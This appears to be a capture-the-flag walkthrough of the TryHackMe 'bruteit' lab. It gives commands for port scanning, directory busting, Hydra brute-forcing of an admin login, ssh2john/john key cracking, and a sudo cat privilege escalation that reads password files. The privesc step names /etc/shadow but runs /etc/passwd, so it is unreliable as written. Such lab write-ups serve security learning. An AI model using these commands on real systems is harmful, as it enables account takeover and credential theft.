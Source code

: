 # 5 - bruteit

Room Link --> [https://tryhackme.com/room/bruteit](https://tryhackme.com/room/bruteit)

Starting with an Nmap search:

{% code overflow="wrap" lineNumbers="true" %}
```bash
nmap -sV -p- -Pn -n 10.10.43.114 --min-rate 20000

# results:
ports 22 and 80 are open.
```
{% endcode %}

Dirbusting with gobuster

{% code overflow="wrap" lineNumbers="true" %}
```bash
gobuster dir -u http://10.10.43.114 -w /usr/share/wordlists/dirb/common.txt -t 300 2>/dev/null

# results:
Found a secret dir --> /admin
```
{% endcode %}

[http://10.10.43.114/admin/](http://10.10.43.114/admin/) --> this takes us to a login page, we viewed source code, and found the username is "admin".

Bruteforcing Login with Hydra.

From the developers option we craft our hydra payload.

<figure><img src=".gitbook/assets/Screenshot_20230901_085800.png" alt=""><figcaption><p>POST request to /admin/</p></figcaption></figure>

<figure><img src=".gitbook/assets/Screenshot_20230901_085820.png" alt=""><figcaption><p>POST data values</p></figcaption></figure>

<figure><img src=".gitbook/assets/image (7) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>grep keyword</p></figcaption></figure>

Our payload will now be:

{% code overflow="wrap" lineNumbers="true" %}
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.43.114 http-post-form "/admin/:user=^USER^&pass=^PASS^:F=Username or password invalid"
```
{% endcode %}

<figure><img src=".gitbook/assets/image (8) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Login with credentials:

<figure><img src=".gitbook/assets/Screenshot_20230901_085256.png" alt=""><figcaption></figcaption></figure>

There's an SSH private key on the page, after downloading it, and trying to use it to login with "john" as username to SSH, it requested for a key.

<figure><img src=".gitbook/assets/image (9) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can use "ssh2john" to crack it.

{% code overflow="wrap" lineNumbers="true" %}
```bash
# we convert the private key to john crackable format.
ssh2john id_rsa > hash.txt

# crack with john.
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```
{% endcode %}

<figure><img src=".gitbook/assets/image (10) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can login to SSH now:

```
# give required permissions for the key
chmod 600 id_rsa

# login
ssh john@10.10.43.114 -i id_rsa
```

Login Success.

User flag is there.

### Privilege Escalation

{% code overflow="wrap" lineNumbers="true" %}
```bash
sudo -l

# there is a "/bin/cat" binary, we go to gtfobins and check how to exploit it.
# we can cat the /etc/shadow content, and crack root password.
sudo /bin/cat /etc/passwd
# then crack it with john.
su root # input password and BOOM!
```
{% endcode %}
